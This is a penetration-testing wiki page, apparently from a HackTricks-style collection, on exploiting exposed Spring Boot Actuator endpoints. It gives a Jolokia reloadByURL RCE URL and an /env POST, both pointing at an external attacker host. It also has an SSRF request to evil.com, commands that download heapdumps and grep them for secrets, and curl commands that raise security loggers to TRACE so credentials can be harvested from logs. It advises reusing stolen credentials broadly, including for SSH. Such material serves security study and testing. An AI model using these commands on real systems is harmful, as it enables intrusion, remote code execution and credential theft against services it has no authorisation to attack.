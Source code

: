 # Spring Actuators

## **Spring Auth Bypass**

![](../../images/image (927).png)

**From** [**https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png**](https://raw.githubusercontent.com/Mike-n1/tips/main/SpringAuthBypass.png)

## Exploiting Spring Boot Actuators

**Check the original post from** \[**https://www.veracode.com/blog/research/exploiting-spring-boot-actuators**]

### **Key Points:**

- Spring Boot Actuators register endpoints such as `/health`, `/trace`, `/beans`, `/env`, etc. In versions 1 to 1.4, these endpoints are accessible without authentication. From version 1.5 onwards, only `/health` and `/info` are non-sensitive by default, but developers often disable this security.
- Certain Actuator endpoints can expose sensitive data or allow harmful actions:
  - `/dump`, `/trace`, `/logfile`, `/shutdown`, `/mappings`, `/env`, `/actuator/env`, `/restart`, and `/heapdump`.
- In Spring Boot 1.x, actuators are registered under the root URL, while in 2.x, they are under the `/actuator/` base path.

### **Exploitation Techniques:**

1. **Remote Code Execution via '/jolokia'**:
   - The `/jolokia` actuator endpoint exposes the Jolokia Library, which allows HTTP access to MBeans.
   - The `reloadByURL` action can be exploited to reload logging configurations from an external URL, which can lead to blind XXE or Remote Code Execution via crafted XML configurations.
   - Example exploit URL: `http://localhost:8090/jolokia/exec/ch.qos.logback.classic:Name=default,Type=ch.qos.logback.classic.jmx.JMXConfigurator/reloadByURL/http:!/!/artsploit.com!/logback.xml`.
2. **Config Modification via '/env'**:

   - If Spring Cloud Libraries are present, the `/env` endpoint allows modification of environmental properties.
   - Properties can be manipulated to exploit vulnerabilities, such as the XStream deserialization vulnerability in the Eureka serviceURL.
   - Example exploit POST request:

     ```
     POST /env HTTP/1.1
     Host: 127.0.0.1:8090
     Content-Type: application/x-www-form-urlencoded
     Content-Length: 65

     eureka.client.serviceUrl.defaultZone=http://artsploit.com/n/xstream
     ```

3. **Other Useful Settings**:
   - Properties like `spring.datasource.tomcat.validationQuery`, `spring.datasource.tomcat.url`, and `spring.datasource.tomcat.max-active` can be manipulated for various exploits, such as SQL injection or altering database connection strings.

### **Additional Information:**

- A comprehensive list of default actuators can be found [here](https://github.com/artsploit/SecLists/blob/master/Discovery/Web-Content/spring-boot.txt).
- The `/env` endpoint in Spring Boot 2.x uses JSON format for property modification, but the general concept remains the same.

### **Related Topics:**

1.  **Env + H2 RCE**:
    - Details on exploiting the combination of `/env` endpoint and H2 database can be found [here](https://spaceraccoon.dev/remote-code-execution-in-three-acts-chaining-exposed-actuators-and-h2-database).

2.  **SSRF on Spring Boot Through Incorrect Pathname Interpretation**:
   - The Spring framework's handling of matrix parameters (`;`) in HTTP pathnames can be exploited for Server-Side Request Forgery (SSRF).
   - Example exploit request:

```http
GET ;@evil.com/url HTTP/1.1
Host: target.com
Connection: close
```

## HeapDump secrets mining (credentials, tokens, internal URLs)

If `/actuator/heapdump` is exposed, you can usually retrieve a full JVM heap snapshot that frequently contains live secrets (DB creds, API keys, Basic-Auth, internal service URLs, Spring property maps, etc.).

- Download and quick triage:
  ```bash
  wget http://target/actuator/heapdump -O heapdump
  # Quick wins: look for HTTP auth and JDBC
  strings -a heapdump | grep -nE 'Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client'
  # Decode any Basic credentials you find
  printf %s 'RXhhbXBsZUJhc2U2NEhlcmU=' | base64 -d
  ```

- Deeper analysis with VisualVM and OQL:
  - Open heapdump in VisualVM, inspect instances of `java.lang.String` or run OQL to hunt secrets:
    ```
    select s.toString() 
    from java.lang.String s 
    where /Authorization: Basic|jdbc:|password=|spring\.datasource|eureka\.client|OriginTrackedMapPropertySource/i.test(s.toString())
    ```

- Automated extraction with JDumpSpider:
  ```bash
  java -jar JDumpSpider-*.jar heapdump
  ```
  Typical high-value findings:
  - Spring `DataSourceProperties` / `HikariDataSource` objects exposing `url`, `username`, `password`.
  - `OriginTrackedMapPropertySource` entries revealing `management.endpoints.web.exposure.include`, service ports, and embedded Basic-Auth in URLs (e.g., Eureka `defaultZone`).
  - Plain HTTP request/response fragments including `Authorization: Basic ...` captured in memory.

Tips:
- Use a Spring-focused wordlist to discover actuator endpoints quickly (e.g., SecLists spring-boot.txt) and always check if `/actuator/logfile`, `/actuator/httpexchanges`, `/actuator/env`, and `/actuator/configprops` are also exposed.
- Credentials from heapdump often work for adjacent services and sometimes for system users (SSH), so try them broadly.

## Abusing Actuator loggers/logging to capture credentials

If `management.endpoints.web.exposure.include` allows it and `/actuator/loggers` is exposed, you can dynamically increase log levels to DEBUG/TRACE for packages that handle authentication and request processing. Combined with readable logs (via `/actuator/logfile` or known log paths), this can leak credentials submitted during login flows (e.g., Basic-Auth headers or form parameters).

- Enumerate and crank up sensitive loggers:
  ```bash
  # List available loggers
  curl -s http://target/actuator/loggers | jq .

  # Enable very verbose logs for security/web stacks (adjust as needed)
  curl -s -X POST http://target/actuator/loggers/org.springframework.security \
       -H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
  curl -s -X POST http://target/actuator/loggers/org.springframework.web \
       -H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
  curl -s -X POST http://target/actuator/loggers/org.springframework.cloud.gateway \
       -H 'Content-Type: application/json' -d '{"configuredLevel":"TRACE"}'
  ```

- Find where logs are written and harvest:
  ```bash
  # If exposed, read from Actuator directly
  curl -s http://target/actuator/logfile | strings | grep -nE 'Authorization:|username=|password='

  # Otherwise, query env/config to locate file path
  curl -s http://target/actuator/env | jq '.propertySources[].properties | to_entries[] | select(.key|test("^logging\\.(file|path)"))'
  ```

- Trigger login/authentication traffic and parse the log for creds. In microservice setups with a gateway fronting auth, enabling TRACE for gateway/security packages often makes headers and form bodies visible. Some environments even generate synthetic login traffic periodically, making harvesting trivial once logging is verbose.

Notes:
- Reset log levels when done: `POST /actuator/loggers/<logger>` with `{ "configuredLevel": null }`.
- If `/actuator/httpexchanges` is exposed, it can also surface recent request metadata that may include sensitive headers.

## References

- [Exploring Spring Boot Actuator Misconfigurations (Wiz)](https://www.wiz.io/blog/spring-boot-actuator-misconfigurations)
- [VisualVM](https://visualvm.github.io/)
- [JDumpSpider](https://github.com/whwlsfb/JDumpSpider)
- [0xdf – HTB Eureka (Actuator heapdump to creds, Gateway logging abuse)](https://0xdf.gitlab.io/2025/08/30/htb-eureka.html)


